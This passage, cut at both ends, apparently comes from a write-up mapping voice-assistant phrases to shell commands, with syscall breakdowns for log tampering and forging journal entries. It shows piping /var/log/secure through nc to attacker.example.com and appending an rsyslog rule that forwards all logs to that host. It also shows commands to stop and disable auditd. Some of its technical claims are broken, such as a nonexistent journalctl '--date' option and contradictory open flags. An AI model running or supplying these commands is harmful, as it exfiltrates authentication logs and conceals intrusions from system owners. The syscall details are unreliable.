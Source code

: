   1. `execve("logger",…)` → writes to `/dev/log` via `socket(AF_UNIX)` + `sendto()`
  2. `open("/var/log/messages", O_RDONLY|O_WRONLY)` + `read()` + `write()` in-place edit via `sed -i`
  3. `utimensat()` if `sed` preserves timestamps

#### 10.3.2 Future-Dating Journal Entries

```bash
bash -c "journalctl --date='2026-01-01 00:00:00' --boot > /tmp/fake.json && \
  mv /tmp/fake.json /var/log/journal/<machine-id>/fake.journal"
```

* **Syscalls:**

  * `execve("journalctl",…)` with custom date → reads old boots
  * `open()` + `write()` → new file in journal directory
  * `renameat()` → atomic replacement

---

### 10.4 Remote Log Sink Poisoning

#### 10.4.1 Voice Phrase: “Forward logs to myself”

```bash
bash -c "cat /var/log/secure | nc attacker.example.com 514"
```

* **Dispatcher Exec:**

  ```bash
  bash -c "cat /var/log/secure | nc attacker.example.com 514"
  ```
* **Primitives & Syscalls:**

  1. `open("/var/log/secure", O_RDONLY)` + `read()`
  2. `socket(AF_INET, SOCK_STREAM)` + `connect()` → `send()`
  3. Data exfiltration through Linkerd sidecar TLS tunnel

#### 10.4.2 Syslog Remote Logging Configuration

```bash
bash -c "echo '*.* @@attacker.example.com:514' >> /etc/rsyslog.conf && systemctl restart rsyslog"
```

* **Syscalls & Actions:**

  1. `open("/etc/rsyslog.conf", O_APPEND|O_WRONLY)` + `write()`
  2. `execve("systemctl",["systemctl","restart","rsyslog"],…)` → D-Bus call

---

### 10.5 Auditd & Syslog Subversion

#### 10.5.1 Voice Phrase: “Disable audit daemon”

```bash
bash -c "systemctl stop auditd && systemctl disable auditd"
```
